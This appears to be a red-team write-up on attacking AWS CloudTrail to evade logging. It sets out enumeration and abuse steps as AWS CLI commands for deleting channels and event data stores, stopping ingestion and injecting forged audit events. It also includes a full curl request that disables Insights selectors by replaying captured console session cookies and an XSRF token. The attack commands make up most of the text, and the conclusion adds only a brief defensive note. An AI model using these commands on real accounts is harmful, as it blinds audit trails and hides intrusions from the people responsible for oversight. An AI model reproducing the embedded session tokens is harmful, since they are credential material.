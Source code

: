 ```yaml
---
published: false
---
```

# Attacking AWS Cloudtrail 101

# Introduction

I was inspired by @[Frichette_n](https://twitter.com/Frichette_n) research about Cloudtrail bypasses and I didn’t find any material or talks discussing how we can attack Cloudtrail. 

I presented this research @[BsidesABQ](https://twitter.com/BSides_ABQ)

Since logging is one of our enemies in red team operations, I decided to do my research on how to attack Cloudtrail from Adversary perspective. 

# Table of content

1. Service-link Channels
    1. Deleting Channels 
    2. Log pensioning 
2. Event data stores
    1. Deleting stored data 
    2. Stop data logging 
3. Insights events
    1. Disabling Insights events 
4. Organization Delegated Admin
    1. DeRegister organization admin 
    2. Register organization admin 

# What is Cloudtrail?

AWS CloudTrail is an AWS service that helps you enable operational and risk auditing, governance, and compliance of your AWS account. Actions taken by a user, role, or an AWS service are recorded as events in CloudTrail.

# Service-link Channels

## Enumeration :

- aws cloudtrail list-channels --profile Cloudtrail

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3bbe7736-2552-4564-9db0-9623b1b767db/9609f292-2db4-44bb-b080-86209ae25b4b/Untitled.png)

## Abuse 1.1 :

Delete-channel permission  

- aws cloudtrail delete-channel --channel arn:aws:cloudtrail:eu-north-1:036528129738:channel/3d5f7c83-5146-4ea5-8e62-7250313f9e26 --profile Cloudtrail

> This permission won’t work if you have EC2 machine, you need to use your own server.
> 

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3bbe7736-2552-4564-9db0-9623b1b767db/ac89b1fe-b5b5-4ab7-82aa-9611263625ce/Untitled.png)

## Abuse 1.2 :

Put-audit-events permission 

- aws cloudtrail-data put-audit-events --channel-arn $CHANNEL_ARN --region "us-east-1" --audit-events <data> --profile cloudtrail

> It always breaks when I use JSON directly into the command so I used bash
> 

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3bbe7736-2552-4564-9db0-9623b1b767db/d60d91e4-f3af-49e9-9104-2a2918ead551/Untitled.png)

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3bbe7736-2552-4564-9db0-9623b1b767db/df9219ad-59f4-4769-8398-aad3614432b7/Untitled.png)

---

# Event data store

## Enumeration :

- aws cloudtrail list-event-data-stores --profile Cloudtrail

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3bbe7736-2552-4564-9db0-9623b1b767db/9d0b4085-175b-47dd-90ae-77c700b81aec/Untitled.png)

## Abuse 1.1 :

Delete-event-data-store permission

- aws cloudtrail delete-event-data-store --event-data-store arn:aws:cloudtrail:eu-north-1:036528129738:eventdatastore/ed8053cc-2fa5-4313-a774-f901a4c850c1 --profile Cloudtrail

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3bbe7736-2552-4564-9db0-9623b1b767db/125722e8-9e30-4c1b-9eac-d4c690f58e2b/Untitled.png)

## Abuse 1.2 :

stop-event-data-store-ingestion permission

- aws cloudtrail stop-event-data-store-ingestion --event-data-store arn:aws:cloudtrail:eu-north-1:036528129738:eventdatastore/ed8053cc-2fa5-4313-a774-f901a4c850c1 --profile Cloudtrail

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3bbe7736-2552-4564-9db0-9623b1b767db/509ad981-ff52-4da4-a5f7-61e3c75c233c/Untitled.png)

---

# Insights events :

## Enumeration :

- aws cloudtrail get-insight-selectors --trail-name management-events --profile Cloudtrail

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3bbe7736-2552-4564-9db0-9623b1b767db/8ef786cb-5729-44f8-b2a6-ea927ed94cba/Untitled.png)

## Abuse :

Put-Insight-selector permission

> By using this you are disabling the insights events.
> 
1. Enable intercept in Burpsuite

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3bbe7736-2552-4564-9db0-9623b1b767db/fad1d129-f829-4497-bded-819a1071c5b8/Untitled.png)

1. This request can be done with the CLi all you need is the cookies to send it authenticated

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3bbe7736-2552-4564-9db0-9623b1b767db/188607bb-103f-4ad9-a334-126cb65d9ae6/Untitled.png)

```powershell
curl -i -s -k -X $'PUT' \
    -H $'Host: eu-north-1.console.aws.amazon.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: application/json' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://eu-north-1.console.aws.amazon.com/cloudtrail/home?region=eu-north-1' -H $'Content-Type: application/json' -H $'x-cloudtrail-xsrf-token: UkNZNHRuRmdvSkc1SFhYQTNTLVZOdTl2RkJsN2JkanNLQl9zZTVMQUIwWXwtNDAwNjEzMTg5ODI5Mzk5MzA4OXwxfDIwMjMtMTEtMjRUMTM6MTk6NDYuNzM3Wg==' -H $'Origin: https://eu-north-1.console.aws.amazon.com' -H $'Content-Length: 141' -H $'Connection: close' -H $'Sec-Fetch-Dest: empty' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Site: same-origin' -H $'Cache-Control: max-age=0' \
    -b $'aws-creds-code-verifier=mLrTV0kwR9xl3b0OUxQKI749k6drbT-eg7BDvSwFrMhbo5-X2; aws-consoleInfo=eyJ0eXAiOiJKV1MiLCJrZXlSZWdpb24iOiJldS1ub3J0aC0xIiwiYWxnIjoiRVMzODQiLCJraWQiOiI1N2QxOTI5MC05NzQxLTQzMDgtYWYxOC1hNzQyNmRmYjZhYzgifQ.eyJhdF9oYXNoIjoiMzFWN2FQd3FqVkx3VmNKM19RWkVHZTd5VnRhTkxaXzYiLCJpc3MiOiJodHRwOlwvXC9zaWduaW4uYXdzLmFtYXpvbi5jb21cL3NpZ25pbiIsInN1YiI6ImFybjphd3M6aWFtOjowMTU0Mjg1NDA2NTk6dXNlclwvY2xvdWR0cmFpbCJ9.GWtXx-axeyOkZsDKsRi62by09wVmJLH810Sq-51Y2eA3zv2P48n2NAn-SwaRNCEZhdcfQHrBlsRVvQajAQ6DZm7OLXhEdppCqbdm-md_Guh6nMjiyyht22x6in9CTdQU; aws-creds=eyJ2IjoyLCJlIjoiZ01QaHFTeFBXVVRJNnEwdzF5RVhya2dyeVJCYzFOQzdNcTZVcURpWHlpRFBm%0AbnFyTTdhdEFyRktqTERONld2QkZzZ0tBakZKMVMySCUwQVZ1UWtyMEhmbmVLaXBnQ2hHWGpjYWFl%0AVHRVejlUTmU0bHRFUjZHclFRaHBwU3JjOUo1bjFBMGtJOE56Z0tpNWtEbXElMkJtUkRXVCUyQnMx%0AJTBBQTFTQUZraFZOZlljV1V5eXRmZFI2bVhraU1WSDZ2Q25LR2ZkZDZxMGprJTJGajhQWmRsREpQ%0ARWhGZHFPbyUyQkJlTm5rdzdDT3dUcEI5WlQlMEE0cGRqT0NTQ2wlMkJJazNyM01ZR05oRFRGeE1V%0ATlZaWmVLVlNUYjZVMFJ6diUyQllKWjJKcXJ0V3Z0RkpkOVEwOVhoSTFMZU5laGtSOWsyMiUwQVQz%0ARVJOV1NuTUlJb1JlRjhzNkdzV1JIUUlHYSUyRm1MeGJRdWhrYkFPR0swdU1tNmxMRzBsRlNPcmJL%0AbHRZbXBIN1ZhRVhvNUlaOGtJVyUwQWdDcXZ4SWJ5YUZvWFhaJTJGaGhnUE9FSkhsbkphV09WQ0RI%0AanB5RzJRSkEwMWFGVFZLUHR1V1RBdCUyRmxrZ3clMkZIU0VudjYxNkFBVmRyNHUlMEFwS1NNdTdt%0AanlnTlJLYkY5Ujh3czV2U25RWW44VFVxNW5LWHN5dHFjeE5LcGx0dVhhJTJCQVV6SUVlMCUyQnhz%0AJTJCbEZOTEtYZ2lqS3lQcmtnJTBBOThJQ2JNdmxoMVVwM3YxbVJKUVo5eUhpSkl0eHRPQnZuZ21Q%0AWHRyMWxiYkVncDZuTnB3eE43Rjk1Z0ZtbzBmREtGZk0zQUMlMkJVVHNZJTBBaW9YWWpob1V5Zjk3%0ASWZOMFV5ViUyQjVpd0drbXZWb1BWeVR2SjZUWCUyRnpEWk1YU0NFbXdDODVxN0VkWGZIUG9vT2w3%0AUE9JUUdmYlRaa1ElMEFmUGNDMFVYSWdCVU1EM0NuZW1lRVJhbUhBalZXSVREVjlXd0hZNE1NQiUy%0ARk1NUlZhNUQ4djdUcFpNeGt2UjFObWY3JTJGS0glMkI5OXMweTVZJTBBazNZQjRxZmdCZVNRZG5Y%0AcENGa3VmWDhHVjQ3WiUyRjBRNzdqT2NqJTJGZiUyRjNnMDJTJTJCb1R0VDhVN3I2RSUyRjBmaFRT%0ATCUyQmNlSHg5aDZJNXElMkJzJTBBbHdLNk02ZTFNR0lPbVR2WmttJTJCa3g3MiUyQmZET0FYcTBx%0ARjEwc2pQeXNXcUppZmNBVXZXU0w0NzJjWHU2b29XSmJneHRxMktZdU8zZWolMEFZTiUyRkNadXpY%0ARGRGOVdrUXRTRER0VTdwcSUyQnNUSlhvZXd6UDZOR2NQSE9OQko2czZzbWJEVUdub2I5eHUlMkJp%0AYm1YdE5XREhLelNtYmFQJTBBek9FOFFoaDFJdTU4WXc3YlM0ZnQ2UElTQUFRUEhydU1LdXI2YzE3%0AY01TJTJGSTB1Nk9HQUkzTlhRM2VmMUc1bENCY2pZV09QUWZkd2JKJTBBRmxzTDkwNXdjaDFrYmJZ%0AbHJvSnA1dDdndUcxclExc2MxSHdnNVRMN0VXNk1PS2dGQ0dLMzdTS2dETzBuRGpGa0xnVzhvUVZ0%0AQ3dSQyUwQTlMRVVBS3MxTlNCaTlNZUR3M3lJTkxXMERPYkhZZDNocmhCTFgyR3RMQ0lqemNZWGN6%0AMWdLMTVid1U3UHVzdVZaTTNPWHZtZ255R1glMEE1WDhkM2w0N29xOWRUMFlRd2hCRGtEeFF4RWlK%0AV3lOaTJBNUJJaTBNVmsxeEpMeFJyOHhUSmNXYnRpNHRPNW9HQkhyQWJ1TVJjcGJGJTBBMXRPa2J2%0AV0JOMGlzWW1HR1VBNE9wQmFDUnBpblY1MzhaUW1qUU80SHdIUlEzJTJCVFByRGxPbG90SnFVaE5G%0AY2dJR1FPU2NWQm4xdsfgsdfgdsfgsdfgdGRIJTBBQ0J4RDhUT0ZRckIlMkZoalR4enhDRyUyQjZYZE9vU1V3VlYlMkZv%0Aem9MRTdBZlVCUUx0WElyazNKdWltMWpaYmUlMkJXZHFLdmRaJTJGNDY4TjFpREMlMEFzUDBISnd0%0AT2F6dmk4QlhkWW4xbHIzN1pOY0dZM3ZIRXBBMlRsV0hhNkVEUWNWanJaaXB3Um9GdUwlMkJOeUU0%0ANVY0eTFFVHpiN2lNWkIlMEFBMGVzOVdxNjZnSzdrcUFDcU9iOSUyRmk5WHElMkZtNTFFZ0lFaHU4%0AVDBlVFd2MUxIWnd2NDA0MHFnbzRUYTF4Z2lmUGlpTU1HSUlzZ2pZdyUwQTBBMkxQUG4lMkZ4VWt1%0Aa3J6UWYxVG41YW04VXpIVE9DOHExY0NyOE5ySFd3S0g1VW9pV2pKbU0yUDdwR1h4Q2F5WEpyQ29t%0AeGZqN2FzWiUwQW9ENFR2WlpWdE5KaVB3Z1V6aGpHN1o2M1NkZVNGSXlpaG5KbmZjUWd6N0wzbkQz%0AMzlxbVc0M2dKcXRkUWxIdGo0MTZyMkpncSIsImEiOjEsImsiOjU0fQ%3D%3D; JSESSIONID=15A621603EB7FCA92753D57BCFCB5A08; aws-ubid-main=611-7283050-5123120; aws-vid=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwaWQiOiI2Y2NmYTJkNy0zNTg5LTRhNTYtOWZmYy1lYmEzOThhNzZhNGYiLCJ1YXQiOjE3MDA4MzE3MTcyNzEsImV4cCI6MTczMjM2NzcxNzI3MSwicHZkIjoiYXdzLmFtYXpvbi5jb20ifQ.aRXljW_PBiRDswnsnoguweZpXOuJpLbbGRgZ1mbnYOc; remember-account=false; aws-account-alias=036528129738; aws-account-data=%7B%22marketplaceGroup%22%3A%22AWS%22%7D; aws-userInfo=%7B%22arn%22%3A%22arn%3Aaws%3Aiam%3A%3A036528129738%3Auser%2FtestaccountBudget%22%2C%22alias%22%3A%22036528129738%22%2C%22username%22%3A%22testaccountBudget%22%2C%22keybase%22%3A%22BusFwa7ORKTMx8q4jxMcO%2FXT%2BxohCbdpsGyvdSG7mPo%5Cu003d%22%2C%22issuer%22%3A%22http%3A%2F%2Fsignin.aws.amazon.com%2Fsignin%22%2C%22signinType%22%3A%22PUBLIC%22%7D; aws-userInfo-signed=eyJ0eXAiOiJKV1MiLCJrZXlSZWdpb24iOiJ1cy1lYXN0LTEiLCJhbGciOiJFUzM4NCIsImtpZCI6ImViYjdjODY1LTY3NGEtNDNjZi1hYzY2LTUxNGQ1YjQxNjlhYiJ9.eyJzdWIiOiIwMzY1MjgxMjk3MzgiLCJzaWduaW5UeXBlIjoiUFVCTElDIiwiaXNzIjoiaHR0cDpcL1wvc2lnbmluLmF3cy5hbWF6b24uY29tXC9zaWduaW4iLCJrZXliYXNlIjoiQnVzRndhN09SS1RNeDhxNGp4TWNPXC9YVCt4b2hDYmRwc0d5dmRTRzdtUG89IiwiYXJuIjoiYXJuOmF3czppYW06OjAzNjUyODEyOTczODp1c2VyXC90ZXN0YWNjb3VudEJ1ZGdldCIsInVzZXJuYW1lIjoidGVzdGFjY291bnRCdWRnZXQifQ.oQm0YxRL52ZYNmAZAe5l3JZ2X0hVsDlEeEsmoU2pldiWE1Mf5K3jBGbllNzsdfgdfsgasdfasdfasdhsdafhcSWR_EVPz8qHWj0sllbEamEg8pc46Bkn8ngVf9nrjW-S96JmOe96Zh9GTQtPq1QYP7bIL; regStatus=registered; seance=%7B%22accountId%22%3A%22036528129738%22%2C%22iam%22%3Atrue%2C%22services%22%3A%5B%22AWSCloudTrail%22%2C%22cloudtrail%22%5D%2C%22status%22%3A%22ACTIVE%22%2C%22exp%22%3A0%7D; awsc-color-theme=light; awsc-uh-opt-in=\"\"; noflush_awsccs_sid=e9aa0dda937be820c48f7ae5bd25e545a3283fec2017f79a7dd7bcdbe0ef9b77; cloudtrail-session-id=Bzyht0Qcyfak6VcugHAl12BN77W7CsXUhW6h8o58Khw; awsccc=eyJlIjoxLCJwIjoxLCJmIjoxLCJhIjoxLCJpIjoiMTJjZDQxMDktYjI5OC00NzgxLThjYTktOTNiZTQxMTE2NDgyIiwidiI6IjEifQ==; aws-signer-token_eu-north-1=eyJrZXlWZXJzaW9uIjoiY3ZSblRkWDUxR0ZxeDdNTkNENG9rbnVaT3FwdDBEQmgiLCJ2YWx1ZSI6ImdFemt2Sy9BN01zZTN4cXlUdGZNWDF6UkFSNlY5WlZoOUtZOUhRYTd4MWc9IiwidmVyc2lvbiI6MX0=; noflush_awscnm=%7B%22hist%22%3A%5B%22ctr%22%2C%22home%22%5D%2C%22sc%22%3A%5B%5D%2C%22tm%22%3A%22tm-both%22%2C%22ea%22%3Atrue%2C%22consoleFlags%22%3A%5B%22F%22%2C%22G%22%2C%22J%22%2C%22H%22%2C%22L%22%5D%7D; noflush_Region=eu-north-1; last-sign-in-session=e9aadda937be820c48f7ae5bd25e545a3283fec2017f79a7dd7bcdbe0ef9b77; toolsExperience={}; awsc-rac=BAH30|CGK33|CPT33|DXB33|HKG33|HYD33|MEL33|MXP30|TLV30|ZAZ30|ZRH30@1700831742609; noflush_awsc_cct_config_version=6CMfVeLSUFu_q_sUXRTc_ZaZy4fH5pf8sRxOAQt_JAc' \
    --data-binary $'{\"trailArn\":\"arn:aws:cloudtrail:eu-north-1:036528129738:trail/management-events\",\"trailHomeRegion\":\"eu-north-1\",\"trailInsightSelectors\":\"[]\"}\x0d\x0a\x0d\x0a\x0d\x0a' \
    $'https://eu-north-1.console.aws.amazon.com/cloudtrail/service/putInsightSelectors?region=eu-north-1
```

---

## Conclusion

Most of AWS permission can be weaponized if the attacker understood how it works, if you used condition statements you will prevent anyone from using what I call dangerous permissions [ Deleting, editing ….etc. ], even if there misconfiguration only the principal you are allowing will be able to use it.
